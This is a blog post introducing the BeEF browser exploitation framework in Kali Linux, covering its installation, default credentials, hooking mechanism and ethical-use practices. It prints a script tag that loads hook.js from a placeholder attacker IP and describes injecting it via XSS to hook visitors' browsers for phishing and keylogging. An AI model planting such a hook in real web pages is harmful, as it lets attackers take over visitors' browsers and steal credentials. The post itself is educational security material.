 ```yaml
---
title: Exploring BeEF A Powerful Kali Linux Tool
linkTitle: BeEF
description: This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.
date: 2024-11-22T16:29:00.893Z
draft: false
tags:
   - kali tools
categories:
   - Kali linux



author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

weight: 300

keywords:
   - BeEF

sidebar:
   open: true
featured_image: /images/kalilinux2.webp
url: exploring-beef-powerful-kali-linux-tool
---
```

Web browsers are essential tools for accessing the internet, but they also represent one of the most significant attack vectors for malicious activities. **BeEF (Browser Exploitation Framework)** is a specialized penetration testing tool included in Kali Linux that focuses on leveraging browser vulnerabilities to assess and improve security. This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.

---

## What is BeEF?

BeEF is an open-source security framework designed to test and exploit vulnerabilities in web browsers. It enables penetration testers and security professionals to evaluate the security posture of systems by interacting directly with browsers. Unlike traditional network-focused tools, BeEF shifts attention to client-side vulnerabilities, such as those arising from JavaScript and cross-site scripting (XSS) attacks.

### Core Features

1. **Hooking Mechanism**:
   - BeEF uses a "hook.js" script to connect to a target browser. Once hooked, the browser becomes part of a command and control (C&C) environment where the tester can execute commands and assess vulnerabilities.

2. **Extensive Exploitation Modules**:
   - Over 300 built-in modules allow for tasks like keylogging, phishing, browser redirection, and network reconnaissance.

3. **Customizable Framework**:
   - Security professionals can inject custom JavaScript code to tailor their testing efforts.

4. **Real-Time Interaction**:
   - BeEF provides real-time interaction with compromised browsers via its web-based dashboard.

---

## Installing BeEF on Kali Linux

BeEF is easy to set up and use within Kali Linux. Follow these steps:

1. **Update Your System**:

   ```bash
   sudo apt update && sudo apt upgrade
   ```

2. **Install BeEF**:

   ```bash
   sudo apt install beef-xss
   ```

3. **Start BeEF**:

   ```bash
   service beef-xss start
   ```

4. **Access the Web Interface**:
   - Open a browser and navigate to `http://127.0.0.1:3000/ui/panel`.
   - The default credentials are:
     - Username: `beef`
     - Password: `beef`

5. **Configuration**:
   - Update credentials and configure logging options via the configuration file located in the BeEF directory.

---

## Using BeEF for Ethical Penetration Testing

### 1. **Browser Hooking**

BeEF hooks browsers by embedding the `hook.js` script into a website or application. For example:

```html
<script src="http://<IP>:3000/hook.js"></script>
```

When a user visits a webpage containing this script, their browser becomes "hooked" and visible in the BeEF dashboard.

### 2. **Launching Exploitation Modules**

Once a browser is hooked, testers can:

- Execute phishing campaigns (e.g., fake Google login pages).
- Redirect browsers to malicious or test sites.
- Perform network reconnaissance from the victim’s perspective.

### 3. **XSS Attacks**

If a vulnerable website is identified, testers can inject `hook.js` via an input field or stored script, hooking multiple users who access the compromised site.

---

## Ethical Use Cases

1. **Web Application Security Testing**:
   - Identify XSS vulnerabilities and assess the potential damage of browser-based exploits.

2. **User Awareness Training**:
   - Demonstrate the risks of insecure browsing habits by simulating phishing attacks or browser exploits in controlled environments.

3. **Incident Response**:
   - Analyze browser compromises to improve organizational defenses against real-world threats.

---

## Benefits and Limitations

### Benefits

- Comprehensive assessment of client-side vulnerabilities.
- Real-time interaction with hooked browsers.
- Extensible framework suitable for diverse testing scenarios.

### Limitations

- Limited to browser-based attacks and may not assess network-level vulnerabilities.
- Requires ethical use; misuse can lead to severe legal consequences.

---

## Best Practices for Responsible Use

1. **Obtain Permission**:
   - Only use BeEF on systems or networks where you have explicit authorization.

2. **Document Actions**:
   - Maintain logs of all activities performed during penetration testing.

3. **Ensure Legal Compliance**:
   - Familiarize yourself with local and international laws governing cybersecurity practices.

4. **Use in Isolated Environments**:
   - Avoid unintended harm by conducting tests in isolated or sandboxed systems.

---

## Conclusion

BeEF is a powerful tool in the hands of ethical hackers and cybersecurity professionals, allowing them to uncover and address vulnerabilities in web browsers and web applications. By leveraging its unique capabilities, organizations can enhance their security posture and educate users about the dangers of insecure web browsing. However, its use comes with a responsibility to adhere to ethical guidelines and legal frameworks, ensuring that the tool serves its intended purpose of improving cybersecurity.

For more information and resources, visit the official [BeEF project page](https://beefproject.com) or consult detailed documentation on Kali Linux’s [tool repository](https://www.kali.org/tools/beef-xss/)【18】【20】【22】.
